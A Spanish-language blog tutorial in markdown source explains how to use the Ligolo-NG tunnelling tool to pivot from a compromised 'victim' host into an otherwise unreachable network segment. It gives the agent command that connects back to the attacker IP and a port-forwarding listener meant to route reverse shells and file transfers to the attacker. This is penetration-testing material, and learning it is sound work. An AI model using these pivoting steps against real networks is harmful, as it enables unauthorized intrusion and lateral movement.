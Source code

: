 ```yaml
---
title: "Tutorial de Ligolo-NG"
date: Tue May 21 2024 02:00:00 GMT+0200 (Central European Summer Time)
categories: [Tutoriales, Ligolo-NG]
tags: [ligolo, ligolo-ng, proxy]
image: /assets/img/cabeceras/ligolo-cab.png
---
```


#### CONFIGURACIÓN Y PUESTA EN MARCHA DE LIGOLO-NG

##### MÁQUINA ATACANTE O PROXY (NUESTRA MÁQUINA):

Primero crearemos la interface "ligolo" y la inicializaremos:

```bash
$ sudo ip tuntap add user andy mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.249.0/24 dev ligolo
```

Ejecutaremos el proxy por el puerto que queramos estar escuchando:

```bash
$ ./ligolo-proxy -selfcert 

O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:4433
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023195808.png)

----

##### MÁQUINA VÍCTIMA DE SALTO:

En la máquina víctima que nos hará de salto entre ambos segmentos de red ejecutaremos lo siguiente:

```bash
> .\ligolo-agent.exe -connect 192.168.45.237:11601 -ignore-cert -retry
...
time="2023-10-23T10:34:58-07:00" level=info msg="Connection established" addr="192.168.45.237:4433"
```

Y ya está. Este último paso lo tendremos que hacer por cada máquina que tenga un segmento de red al que no podemos acceder. No hace falta ser un usuario con altos privilegios para ejecutar el agente, ya sea una máquina Linux o Windows.

----

##### MÁQUINA PROXY:

Ahora si nos fijamos en nuestra máquina, veremos que tenemos una conexión entrante:

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023200157.png)

Pulsamos intro y activamos la sesión 1, que es la única que hay. Si hubiese más tendríamos que activarla antes de usar el túnel creado.

```bash
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```

Probamos si tenemos conexión a la red a la que queremos llegar:

```bash
$ ping 172.16.249.11

PING 172.16.249.11 (172.16.249.11) 56(84) bytes of data.
64 bytes from 172.16.249.11: icmp_seq=1 ttl=64 time=47.5 ms
64 bytes from 172.16.249.11: icmp_seq=2 ttl=64 time=43.2 ms
64 bytes from 172.16.249.11: icmp_seq=3 ttl=64 time=42.9 ms
```

Fantástico!!! Ya tenemos conexión con el segmento de red desde nuestra máquina!

----
- <font color="#c0504d">LLEGADOS A ESTE PUNTO EL PROBLEMA QUE SE NOS PRESENTA ES QUE LAS MÁQUINAS A LAS QUE YA PODEMOS ACCEDER NO TIENEN CONEXIÓN DIRECTA HACIA NOSOTROS, POR LO QUE UNA REVERSE SHELL O TRANSFERENCIA DE ARCHIVOS NO FUNCIONARÍA. PARA SOLUCIONARLO HAREMOS UN</font> _PORT FORWARDING_ <font color="#c0504d"> HACIA NUESTRA MÁQUINA ATACANTE.</font>

----

#### PORT FORWARDING HACIA NUESTRA MÁQUINA (LISTENER LIGOLO-NG)

##### MÁQUINA PROXY

Vamos a nuestra consola proxy de _Ligolo_ y escribimos el listener que queremos levantar:

```bash
[Agent : WEB02\Administrator@WEB02] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Esto significa que todo el tráfico que reciba la máquina de salto por el puerto 8080 lo recibirá nuestra máquina atacante por el puerto 80. De esta manera si queremos tener una reverse shell de cualquier máquina o transferir archivos, el exploit o la RS deberá apuntar a la IP y al puerto 8080 de la máquina de salto y nosotros deberemos escuchar en el puerto 80 con NC, Webserver de Python o cualquier servicio que hayamos levantado en nuestra máquina y queramos llegar desde la máquina víctima que está en otro segmento de red.

-----

#### LISTADO DE LISTENERS

Para ver un listado de todos los LISTENERS que tenemos activos lo podremos hacer con este sencillo comando desde nuestra consola de proxy de _Ligolo_.

```bash
[Agent : WEB02\Administrator@WEB02] » listener_list
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231024162410.png)

-----

#### LIMPIEZA Y BORRADO DE INTERFACES

##### MÁQUINA PROXY:

Para borrar las interfaces y rutas creadas tenemos dos opciones, reiniciar nuestra máquina ya que no son configuraciones permanentes o, si no podemos o no queremos, ejecutaremos los siguientes comando en nuestra máquina:

```bash
$ sudo ip route del 172.16.249.0/24 dev ligolo
...
$ sudo ip link del ligolo
```


-----

Repositorio oficial de GitHub [aquí](https://github.com/nicocha30/ligolo-ng)
